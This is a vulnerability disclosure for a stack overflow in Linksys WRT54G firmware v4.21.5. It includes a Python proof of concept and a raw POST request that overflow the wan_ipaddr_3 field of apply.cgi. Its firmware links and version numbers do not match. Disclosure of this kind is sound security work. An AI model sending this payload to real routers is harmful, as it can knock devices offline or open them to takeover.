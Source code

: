 # Overview
Firmware download website: [https://software.cisco.com/download/home/283879340/type/282487380/release/1.2.2.5](https://software.cisco.com/download/home/283879340/type/282487380/release/1.2.2.5)
[https://software.cisco.com/download/home/283879340/type/282487380/release/1.2.2.8](https://software.cisco.com/download/home/283879340/type/282487380/release/1.2.2.8)

# Affected version
Linksys WRT54G Firmware v4.21.5
# Vulnerability details
The Linksys WRT54G Firmware v4.21.5 has a stack overflow vulnerability in get_merge_mac function. The variable `wan_ipaddr_%d`receives the parameter from a POST request.  In line 15, the stract function will merge it with the variable a2. It is important to note that in the calling function, the a2 variable is stack-allocated and has a size of only 24 characters. If the variable exceeds this length, it can result in a buffer overflow vulnerability, potentially leading to remote code execution or denial-of-service attacks.  
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723521727425-1957b2ba-9c9f-41d8-8963-76fe8c56665f.png#averageHue=%23fdfdfb&clientId=ub288f58f-c669-4&from=paste&height=261&id=u99def465&originHeight=441&originWidth=807&originalType=binary&ratio=1.125&rotation=0&showTitle=false&size=36998&status=done&style=none&taskId=u2e84555d-1993-4576-b80f-0073081d4bd&title=&width=477.33331298828125)
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723521761103-57d645c2-fb74-4cfd-a2a3-18f94747b6cc.png#averageHue=%23fcfcfb&clientId=ub288f58f-c669-4&from=paste&height=451&id=ubf5700a3&originHeight=732&originWidth=715&originalType=binary&ratio=1.125&rotation=0&showTitle=false&size=84978&status=done&style=none&taskId=ud54a6890-036f-40e6-9df0-09bc09bdd27&title=&width=440.5555419921875)
# POC
```python
import requests

url = 'http://192.168.1.1/apply.cgi'
headers = {
    'Host': '192.168.1.1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://192.168.1.1',
    'Authorization': 'Basic OmFkbWlu',
    'Connection': 'close',
    'Referer': 'http://192.168.1.1/WanMAC.asp',
    'Upgrade-Insecure-Requests': '1',
    'Priority': 'u=1',
}

payload = ('submit_button=WanMAC&change_action=&submit_type=&action=Apply&wan_proto=1&wan_ipaddr=3&wan_ipaddr_0=1.1.1.1&wan_ipaddr_1=2.2.2.2&wan_ipaddr_3=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&wan_netmask=2.2.2.2')

response = requests.post(url, headers=headers, data=payload)

print('Status:', response.status_code)
print('Response:', response.text)

```
```c
POST /apply.cgi HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 197
Origin: http://192.168.1.1
Authorization: Basic OmFkbWlu
Connection: close
Referer: http://192.168.1.1/WanMAC.asp
Upgrade-Insecure-Requests: 1
Priority: u=1

submit_button=WanMAC&change_action=&submit_type=&action=Apply&wan_proto=1&wan_ipaddr=3&wan_ipaddr_0=1.1.1.1&wan_ipaddr_1=2.2.2.2&wan_ipaddr_3=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&wan_netmask=2.2.2.2
```
